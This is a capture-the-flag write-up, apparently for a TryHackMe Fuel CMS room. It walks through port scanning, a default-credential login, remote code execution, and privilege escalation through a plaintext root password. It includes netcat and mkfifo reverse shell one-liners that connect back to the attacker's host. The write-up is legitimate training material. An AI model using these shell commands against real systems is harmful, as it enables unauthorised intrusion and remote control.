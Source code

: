 # Step 1: Enumeration
## Scan
### Nmap
```
nmap -sS -A -T4 -e tun0 -oN nmap.log 10.10.233.31
```
#### Result
```
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
```

### Masscan
```
masscan -e tun0 --rate 1000 -p0-65535 -oL masscan.log 10.10.233.31
```
#### Result
```
open tcp 80 10.10.233.31 1601794104
```

It appears only port 80 is open on the server. Time to spider the site.

### OWASP Zap

robots.txt includes /fuel/, maybe there's something they don't want use to see?
Fuel appears to be CMS, perhaps should try brute-forcing our way in if we don't
find anything via /fuel/login.

### GoBuster

Nothing too interesting was found by spidering the site, let's look for hidden
directories.

```
gobuster dir -u http://10.10.233.31 -o gobuster.log -w /usr/share/wordlists/discovery/common.txt
```
#### Result (urls of interest)
```
/home
/offline
```

/home seems to be the default template/setup page for fuel cms. Looking at it's contents
there is an insert about the default login being admin:admin. Let's try logging in with that.
That worked.

# Step 2: Exploitation

Now that we're in, let's try to get a shell. Upload php-reverse-shell.php to the server
under assets, then start ncat and navigate to the resource to trigger it.

.php files can't be uploaded, let's try changing the extension. That doesn't work either.
Trying to edit a page and paste in the shell code also doesn't work because it gets cleaned.

After spending an hour trying to figure out how to get the reverse shell onto the server,
I needed to reference a writeup. Turns out trying to do that won't work. Instead there is
a script found on exploit-db that allows for remote code execution against fuel cms.

Unfortunately, the script didn't work. I ported it over to python3, but that wasn't enough.
I had to look through a few different writeups to find a working version of the script.
What the author had done is removed the proxy call, from there it worked like a charm.

Once the script was working, I started up ncat again on my host machine, and executed the cmd:
```
cmd:nc 10.4.15.69 4444 -e /bin/bash
```

Now I have a shell. Or at least I thought so. Turns out I need to do some wild shit.
```
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```

After running that monstrosity, I upgrade the shell:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Then I checked out the /home directory and got the flag.

# Step 3: Escalation

Now I needed to find a way to escalate permissions. From the previous rooms I've done,
I know I can look for binaries with root permissions.
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Unfortunately, it seems none of the binaries were exploitable. Again, I had to
reference a writeup. The writeup revealed that root's password was saved as
plain text in a config file that was part of fuel cms. This could've been
deduced had I carefully read the /home page contents and kept note of it.

After upgrading to root, I grabbed the flag in /root.
